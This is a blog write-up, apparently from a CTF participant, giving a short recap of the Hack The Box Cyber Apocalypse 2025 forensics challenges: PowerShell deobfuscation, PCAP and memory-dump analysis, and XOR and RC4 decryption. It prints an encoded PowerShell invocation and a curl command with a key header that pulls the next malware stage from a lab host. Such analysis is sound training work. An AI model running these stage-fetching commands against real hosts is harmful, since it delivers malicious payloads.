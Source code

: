 ```yaml
---
title: "HTB - Tales From Eldoria - Forensics"
seoTitle: "Hack The Box - Cyber Apocalypse CTF - Tales From Eldoria - Forensics"
datePublished: Wed Mar 26 2025 13:00:25 GMT+0000 (Coordinated Universal Time)
cuid: cm8pxn12n000h09i3e77rd630
slug: htb-ca-2025
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1742981905728/f18081ab-59de-4c08-b304-b772641e6022.png
tags: hacking, forensics, hackthebox, ethicalhacking, blueteam

---
```


%%[support-cta] 

Just quick recap of the Forensics tasks - **more details coming** in following days, have **a lot** to do outside the area of offensive security so, forgive me for this format this time. Please follow-up on Discord and other socials for updates.

Challenges described below are from the Hack The Box Cyber Apocalypse 2025 CTF - [Tales From Eldoria](https://www.hackthebox.com/events/cyber-apocalypse-2025).  
*Cover background image and HTB logo belongs to the Hack The Box (I’m not an author of those images).*

# Thorin’s Amulet

PowerShell payload deobfuscation. Decode command in script

```powershell
powershell.exe -NoProfile -NonInteractive -EncodedCommand /Base64 command/
```

Then

```powershell
curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://korp.htb/a541a
```

to obtain the next stage. Last stage contains encoded flag (just run it in Linux `pwsh`).

# A new Hire

Straightforward multistage payload, at the end there is a base64 encoded flag.

Read email, navigate to `storage.microsoftcloudservices.com:[PORT]/index.php` where another URL `http://IP:PORT/3fe1690d955e8fd2a0b282501570e1f4/resumes/` contains malicious file hiding as a PDF file

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1742969315073/8837ffae-5661-49e8-95c7-bc4ca8764db4.png align="center")

That contains one more base64 PowerShell encrypted command, where again, base64 encoded flag is located.

# Silent Trap

In the PCAP file we can find contents of mails, packet 72 contains mail from threat actor with attachment `Eldoria_Balance_Issue_Report.pdf.exe`. Bytes can be extracted from packet 614. We can decompile the program and discover the cypher is RC4 where same function works for encryption & decryption and it exfitrates data through IMAP protocole. Combing through the PCAP file we can find whole communication between host and C&C at `192.168.91.173`. Now that we have the decryptor/encrypt from reverse engineered binary we can decode all transfered data and answer other questions.

# Stealth Invasion

Delivered `memdump.elf` Windows memory dump can be analyzed with `volatility3`. The issue in my side was outdated installation, after updating to latest there were no issues with volatility modules.

# Cave Expedition

All Windows logs were pruned after operation, only traces are in the `Microsoft-Windows-Sysmon_Operational.evtx` from which we can decode all PowerShell payloads to dicover what happened. Slowly we deobfuscate stage by stage malicious payloads finally to obtains the ecryption method - which once again happen to be XORing (which is reversable regadless of how many XOR factors were used - here 2 times). Then `map.pdf.secured` can be decrypted.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1742970711240/9ca0841e-f5c9-47c0-992d-eb7157190c26.png align="center")

# ToolPie

%[https://blog.cyberethical.me/htb-ctf-2025-forensics-toolpie] 

%%[follow-cta] 

# Tales for the Brave

%[https://blog.cyberethical.me/htb-ctf-2025-forensics-tales-for-the-brave] 

%%[join-cta]